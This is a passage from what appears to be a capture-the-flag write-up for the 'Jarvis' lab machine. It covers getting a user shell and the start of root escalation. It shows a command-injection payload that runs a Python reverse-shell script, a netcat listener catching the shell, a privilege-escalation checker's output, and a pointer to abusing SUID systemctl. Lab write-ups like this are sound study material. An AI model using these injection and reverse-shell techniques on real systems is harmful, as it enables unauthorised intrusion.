 
Enter an IP: $(python /tmp/shell3.py)
$(python /tmp/shell3.py)
{% endhighlight %}

<p>Then on the receiving end:</p>

{% highlight shell %}
nc -lvp 4444
Listening on [0.0.0.0] (family 2, port 4444)
Connection from 10.10.10.143 56170 received!
$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
$ cd /home/pepper
$ ls
Web
user.txt
$ cat user.txt
2afa3**************************
{% endhighlight %}

<p>Victory. User credentials acquired.</p>

<h1>Root exploitation</h1>

<p>Now we needed to kick off a new privsec enumeration with the user pepper. No new sudo rules, however after running linprivcheck I noticed something interesting in the SUID/GUID section:</p>

{% highlight python %}
$ python linprivchecker.py
python linprivchecker.py
========================================================
LINUX PRIVILEGE ESCALATION CHECKER
========================================================

[*] GETTING BASIC SYSTEM INFO...

[+] Kernel
    Linux version 4.9.0-8-amd64 (debian-kernel@lists.debian.org) 
    (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #1 SMP Debian 4.9.144-3.1 (2019-02-19)

[+] Hostname
    jarvis
...
[+] SUID/SGID Files and Directories
    -rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
    -rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
    -rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
    -rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
    -rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
    -rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
....
{% endhighlight %}

<p>Notice <code>/bin/systemctl</code> ? Looks like we have the ability to run it as pepper and since it has SUID set we may be able to exploit it to pivot into root. Quickly searching around I found a reference I will definitely keep handy moving forward - <a href="https://gtfobins.github.io/gtfobins/systemctl/#suid">gtfobins</a>. Unfortunately the shell I had on the host was not playing nice with this POC so had to take a tangent and get my shell upgraded first. Since we didn't know pepper's password we couldn't just ssh in as the user with the password, however we could do something that would still allow us to properly log in - ssh keys!</p>
